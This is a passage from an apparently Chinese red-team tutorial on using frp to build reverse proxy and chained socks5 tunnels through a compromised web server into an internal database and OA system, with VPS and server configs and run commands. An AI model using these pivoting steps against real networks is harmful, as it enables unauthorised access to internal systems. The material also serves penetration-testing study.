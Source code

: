 web服务器执行

```
./frpc -c ./frpc.ini
```



黑客攻击机本地配置代理

`vps-ip:4445`

在黑客的机器上通过输入数据库的内网地址，成功访问到了数据库的http服务。

<img src="../../../note/red/pictures/image-20201022100934029.png" alt="image-20201022100934029" style="zoom: 33%;" /> 



# 场景二：隧道多级串联

如下拓扑图，将web服务器和数据库都作为代理，搭建黑客访问oa系统socks5隧道。

<img src="../../../note/red/pictures/frp1.png" alt="frp1" style="zoom:33%;" /> 

### vps配置

vps上起一个frp的服务端

frps.ini：

```
[common]
bind_port = 7000
token = shadowtest	#密码
```

执行：

```
./frps -c ./frps.ini
```



### web服务器配置

web服务器要开一个frp客户端和一个服务端。客户端的本地端口监听4445端口，然后将4445端口监听的流量映射到vps的4445端口，完成端口转发。

**服务端**

服务端frps.ini的配置：

```
[common]
bind_port = 7000
token = shadowtest	#密码
```

执行frps

```
./frps -c ./frps.ini
```
